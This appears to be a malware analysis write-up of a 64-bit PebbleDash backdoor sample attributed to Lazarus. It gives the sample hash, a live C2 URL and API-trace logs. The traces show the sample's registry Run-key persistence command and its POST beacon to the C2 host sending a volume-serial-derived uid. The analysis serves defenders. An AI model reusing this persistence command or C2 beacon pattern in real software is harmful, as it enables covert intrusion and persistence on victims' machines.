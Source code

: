 SHA256 : 875b0cbad25e04a255b13f86ba361b58453b6f3c5cc11aca2db573c656e64e24  
sample source : https://bazaar.abuse.ch/sample/875b0cbad25e04a255b13f86ba361b58453b6f3c5cc11aca2db573c656e64e24/  
VT : https://www.virustotal.com/gui/file/875b0cbad25e04a255b13f86ba361b58453b6f3c5cc11aca2db573c656e64e24  

Reports:  
https://dmpdump.github.io/posts/Lazarus-Backdoor-ITLure/  
https://ti.qianxin.com/blog/articles/Kimsuky-Weapon-Update:-Analysis-of-Attack-Activity-Targeting-Korean-Region/  


C2 :
http://www.addfriend.kr/board/userfiles/temp/index.html  

Analyzed sample is a 64bit PE PebbleDash sample attributed to LAZARUS  

---

In order to trigger the persistency-setup behavior from the sample a little reverse engineering was required :  

```html
[CNT] [13]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <GetCommandLineA> in [KERNEL32.DLL] 
[RET] 0x7ff7f099fd96 in [pebbledash.exe]

[CNT] [14]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <GetCommandLineW> in [KERNEL32.DLL] 
[RET] 0x7ff7f099fda3 in [pebbledash.exe]
```

Following the results from those call in statical analysis revealed the following :  

![Alt text](screen/start.jpg?raw=true "Command Line Parsing")

The sample was therefor run with the '--start' parameter, which triggered its installation :  

```html
[CNT] [64]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <CreateProcessW> in [KERNEL32.DLL] 
[PAR] LPCWSTR               lpApplicationName   : 0x0 (null)
[PAR] LPCWSTR               lpCommandLine       : 0x00000025275BF1E0
[STR]                       -> "reg add hkcu\software\microsoft\windows\currentversion\run /d "\"C:\Users\user\Desktop\pebbledash\pebbledash.exe\"" /t R"
[STR]                          "EG_SZ /v "PAY" /f"
[PAR] LPSECURITY_ATTRIBUTES lpProcessAttributes : 0x0
[PAR] LPSECURITY_ATTRIBUTES lpThreadAttributes  : 0x0
[PAR] BOOL                  bInheritHandles     : 0x0
[PAR] DWORD                 dwCreationFlags     : 0x0 
[PAR] LPVOID                lpEnvironment        : 0x0
[PAR] LPCWSTR               lpCurrentDirectory   : 0x0 (null)
[PAR] LPSTARTUPINFOW        lpStartupInfo        : 0x00000025275BE970
[FLD]                       -> lpDesktop   = 0x0 (null)
[FLD]                       -> lpTitle     = 0x0 (null)
[FLD]                       -> dwFlags     = 0x1 (STARTF_USESHOWWINDOW)
[FLD]                       -> wShowWindow = 0x0
[FLD]                       -> hStdInput   = 0x0
[FLD]                       -> hStdOutput  = 0x0
[FLD]                       -> hStdError   = 0x0
[PAR] LPPROCESS_INFORMATION lpProcessInformation : 0x00000025275BE950
[RET] 0x7ff7f0997314 in [pebbledash.exe]
```

---  

C2 connection is straightforward :  

```html
[CNT] [91]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <WinHttpConnect> in [winhttp.dll] 
[PAR] HINTERNET     hSession       : 0x277edf80
[PAR] LPCWSTR       pswzServerName : 0x00000025275BD040
[STR]               -> "www.addfriend.kr"
[PAR] INTERNET_PORT nServerPort    : 80
[RET] 0x7ff7f0985d45 in [pebbledash.exe]

[CNT] [92]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <WinHttpOpenRequest> in [winhttp.dll] 
[PAR] HINTERNET hConnect          : 0x277f0070
[PAR] LPCWSTR   pwszVerb          : 0x00000025275BD022
[STR]           -> "POST"
[PAR] LPCWSTR   pwszObjectName    : 0x00000025275BD250
[STR]           -> "/board/userfiles/temp/index.html"
[PAR] LPCWSTR   pwszVersion       : 0x0 (null)
[PAR] LPCWSTR   pwszReferrer      : 0x0 (null)
[PAR] LPCWSTR   *ppwszAcceptTypes : 0x0
[PAR] DWORD     dwFlags           : 0x0 
[RET] 0x7ff7f0985e41 in [pebbledash.exe]

[...]

[CNT] [103]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <WinHttpWriteData> in [winhttp.dll] 
[PAR] HINTERNET hRequest                 : 0x00000025277F4080
[PAR] LPCVOID   lpBuffer                 : 0x00000025275BE180
[STR]           -> "sep=MltZfhPlOLa&uid=689b5bb9&sid=0101e418"
[PAR] DWORD     dwNumberOfBytesToWrite   : 0x29
[PAR] LPDWORD   lpdwNumberOfBytesWritten : 0x00000025275BDE38
[RET] 0x7ff7f0986c47 in [pebbledash.exe]

[CNT] [104]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <WinHttpReceiveResponse> in [winhttp.dll] 
[PAR] HINTERNET hRequest   : 0x00000025277F4080
[PAR] LPVOID    lpReserved : 0x0
[RET] 0x7ff7f0986daa in [pebbledash.exe]
```

As mention in a linked blog analysis from dmpdump.github, the "uid" parameter is set according to the result from :  

```html
[CNT] [81]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <GetVolumeInformationW> in [KERNEL32.DLL] 
[PAR] LPCWSTR lpRootPathName           : 0x00000025275BDCB0
[STR]         -> "C:\"
[PAR] LPWSTR  lpVolumeNameBuffer       : 0x0
[PAR] DWORD   nVolumeNameSize          : 0x0
[PAR] LPDWORD lpVolumeSerialNumber     : 0x00000025275BDCA8
[PAR] LPDWORD lpMaximumComponentLength : 0x0
[PAR] LPDWORD lpFileSystemFlags        : 0x0
[PAR] LPWSTR  lpFileSystemNameBuffer   : 0x0
[PAR] DWORD   nFileSystemNameSize      : 0x0
[RET] 0x7ff7f098ab33 in [pebbledash.exe]
```


